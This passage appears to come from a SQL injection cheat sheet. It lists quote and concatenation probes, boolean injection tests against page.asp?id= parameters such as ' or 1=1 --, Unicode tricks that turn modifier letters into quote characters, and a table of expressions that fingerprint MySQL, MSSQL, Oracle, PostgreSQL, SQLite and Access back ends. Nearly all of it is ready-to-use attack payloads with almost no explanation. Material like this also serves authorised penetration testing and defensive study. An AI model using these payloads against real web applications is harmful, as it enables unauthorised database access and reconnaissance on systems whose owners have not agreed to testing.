 ```sql
`+HERP
'||'DERP
'+'herp
' 'DERP
'%20'HERP
'%2B'HERP
```

Logic Testing

```sql
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

Weird characters

```sql
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

## DBMS Identification

```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
